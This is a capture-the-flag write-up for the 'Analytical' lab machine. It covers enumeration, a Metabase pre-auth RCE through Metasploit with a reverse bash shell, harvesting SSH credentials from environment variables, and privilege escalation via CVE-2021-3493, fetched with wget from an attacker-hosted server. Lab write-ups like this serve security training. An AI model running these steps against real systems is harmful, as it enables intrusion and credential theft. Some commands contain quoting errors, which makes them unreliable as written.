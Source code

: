 # Enumeration

The nmap scan reveals two open ports 22 for ssh and 80 where a website is hostet with the dnsname http://analytical.htb

## Enter domain to hosts-file

```
echo '10.10.11.233 analytical.htb | sudo tee -a /etc/hosts'
```

## Login-Panel and adding subdomain

On the website we find the subdomain data.analytical.htb . href of the Login-Button.

```
echo '10.10.11.233 data.analytical.htb | sudo tee -a /etc/hosts'
```

# Foothoold

The Loginpage leads us to the Software Metabase. By google 'metabase exploit' one of the first links is about a Pre-Auth RCE. https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/

This article explains it in detail. By searching for the setup-token at the sourcecode of the login-pages it is verified this works. 
Using Metasploit is the easiest ways in.

## Using Metasploit to gain access

By starting Metasploit and searching for Metabase we get one result which we select by use 0.

```
msfconsole
search Metabase
use 0
```

Module options(exploit/linux/http/metabase_setup_token_rce):
RHOSTS     data.analytical.htb  
RPORT      80
TARGETURI  / 

Payload options(cmd/unix/reverse_bash):
LHOST  tun0
LPORT  4444

## User SSHlogin

```
env
```

Gives us a META_PASS and META_USER which are the ssh credentials.

# Priviliges Escalation 

## Briskets

```
cat /etc/os-release
```

Reveals the Ubuntu 20.04 LTS which is vulnerable for the briskets.

https://github.com/briskets/CVE-2021-3493

On attacker site
```
git clone https://github.com/briskets/CVE-2021-3493
cd CVE-2021-3493/
gcc exploit.c -o exploit
python3 -m http.server PORT
```

On victim site 
```
wget http://IP:PORT/exploit
chmod +x exploit
./exploit
```





